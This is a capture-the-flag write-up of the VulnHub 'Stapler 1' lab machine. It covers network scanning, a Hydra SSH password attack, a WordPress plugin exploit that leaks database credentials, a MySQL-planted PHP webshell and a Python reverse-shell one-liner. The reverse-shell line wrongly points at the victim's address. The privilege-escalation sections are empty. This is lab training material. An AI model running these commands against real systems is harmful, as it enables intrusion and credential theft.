









# Stapler 1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/stapler-1,150/ "URL for stapler 1").

## Information Gathering

Using the `ifconfig` command, we have determined that our attacking machine's IP address is 10.0.2.5. We can then use the command `nmap -sn 10.0.2.0/24` to scan the local subnet to find what the victim's IP address is.

From these found IP addresses, we can narrow down our victim's IP address by seeing that only two addresses are identified as VirtualBox machines, and that knowing the address 10.0.2.3 is used by VirtualBox as its name server, meaning that our victim is at address 10.0.2.9.

## Scanning

Running the command `nmap -sV 10.0.2.9 -p 1-65535` will run tell us the services and their versions on all ports on the victim.

We can see that nmap was unable to recognize a service that was running on port 666, and that is what the extra text at the end comes from.

Because the victim is running smbd on port 139, we can use the command `enum4linux 10.0.2.9` to get more information about the host. It will show us information about users, group membership, password policy, and more.

In this case, we're interested in the usernames, as with the usernames, we can conduct dictionary attacks against them to see if anyone has a vulnerable password. We create the wordlist by taking the user information found through `enum4linux` and placing the usernames into a text file, in this case I called the file users.txt.

## Gaining access

Throughout the time I poked around this virtual machine, I found several ways to gain access to it, and I will list them in their own sections.

### Method 1: dictionary attack

With the wordlist that we made, we can use THC-Hydra to perform a dictionary attack against these usernames to see if we can get valid SSH credentials. Starting off simple, instead of using a wordlist, we will try to see if any of the users have a password that is blank, the same as their username, or the same as their username reversed. This is performed with the command `hydra -t 4 -L users.txt -e nsr ssh://10.0.2.9`. We use the `-t 4` option because SSH has issues handling many requests at a time, so we limit hydra to four threads so it doesn't get overloaded.

We've found valid SSH credentials for the SHayslett user, and we can use this to connect to the victim with the command `ssh SHayslett@10.0.2.9` and entering the password when prompted.

### Method 2: WordPress vulnerability

From our `nmap` scan, we can see that the victim has an HTTP service running on ports 80 and 12380. We can use `nikto` to get more information about the services running to see if we can find any more useful information. The command `nikto -h 10.0.2.9` will scan the default port 80 on the victim for outdated versions or improper configurations.

We didn't find too much information, just that a user home directory had a shell rc and shell profile exposed, and that the server might be vulnerable to clickjacking or XSS, but these won't help us get access to the machine itself.

Next, we'll scan port 12380 with nikto by using the command `nikto -h 10.0.2.9:12380`.

From this scan, we can tell that the web service running on this port is using SSL, and that the robots.txt entry has two directories that we can take a look at. These directories are /admin11223/ and /blogblog/. It also alerts us that the /phpmyadmin/ directory exists as well.

We'll use a web browser to explore the two web services running on the machine.

Opening up `http://10.0.2.9` in a web browser will give us a 404 page, meaning that we're not likely to find an attack vector here. Instead, we'll try to load `http://10.0.2.9:12380`.

Now we get a screen that says the website will be coming soon, so we're probably not going to find much here either. Remembering that `nikto` said that 10.0.2.9:12380 is using SSL, we'll try loading `https://10.0.2.9:12380`.

Now, we get a page proclaiming that it's the internal index page. With the other information we gathered from `nikto`, we can try loading `https://10.0.2.9:12380/admin112233` and `https://10.0.2.9:12380/blogblog`.

Opening the admin112233 listing tells us that we could have been hooked by a BeEF-XSS hook and nothing else, so we're not too interested in this listing. We'll try the blogblog directory next.

This directory is a blog for Initech, and by scrolling down, we come to see that it is powered by WordPress. This means that we can try out WPScan to see if there are any vulnerabilities in the implementation. The command `wpscan --url https://10.0.2.9:12380/blogblog --enumerate ap` will scan for any vulnerabilities in the base wordpress installation and print out the plugins being used as well as any associated vulnerabilities if found.

As the base installation didn't provide a feasible attack vector, we'll focus on the plugins. Using `searchsploit`, we can find any available exploits for the plugins. The command `searchsploit advanced video` will give us an exploit for the plugin, which we can copy to our local directory with `searchsploit -m 39646`.

This exploit works by leveraging a vulnerability in the plugin that will publish a post with an image in it, but the image data is received by a call to the file\_get\_contents() function, which will accept any file given to it that can be read. In this case, it will read the contents of the wp-config.php file, which is the configuration file for the WordPress installation. More information about the exploit can be found [here](https://www.exploit-db.com/exploits/39646/ "A link to the exploit").

Before the exploit can run properly, it needs a little tweaking. First, we need to point the url variable to the WordPress location, in this case `https://10.0.2.9:12380/blogblog`. Next, the exploit had an issue with the SSL certificate for the site, so I modified the exploit to import the ssl Python module with `import ssl` and added a line `ssl._create_default_https_context = ssl._create_unverified_context`. The final exploit is seen below.

Running the exploit with `python 39646.py` will create a post with an embedded image that instead of being an image, contains the contents of the wp-config.php file.

From the website, we can see that the file is called 1506946168.png, and we can download it with the command `wget --no-check-certificate https://10.0.2.9:12380/blogblog/wp-content/uploads/1506946168.png`.

Reading the file with `cat 1506946168.png` shows us that the MySQL database associated with WordPress has hard-coded credentials, namely the username "root" and the password "plbkac".

We can use these credentials to connect to the database with the command `mysql -u root -p -h 10.0.2.9` and entering the password when prompted. We can then run the command `select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";` to create a webshell at `https://10.0.2.9:12380/blogblog/wp-content/uploads/shell.php` that will execute any command that we type into the URL as the cmd parameter.

An example of how we can get our shell to run a command would be entering the URL `https://10.0.2.9:12380/blogblog/wp-content/uploads/shell.php?cmd=id` in our web browser, which will run the `id` command and display the result.

Now we can use this to get local access to the victim, by starting a listener on our attacker with the command `nc -lvp 4444` and then putting the command `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.9",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` in the cmd parameter of the link, which will turn out to be the URL `https://10.0.2.9:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.9%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27` after proper URL formatting.

## Escalating priviliges

I also found a few ways of escalating from local to root privileges on this virtual machine, so I will describe the different ways I used.

### Method 1: command history

### Method 2: vulnerable cronjob
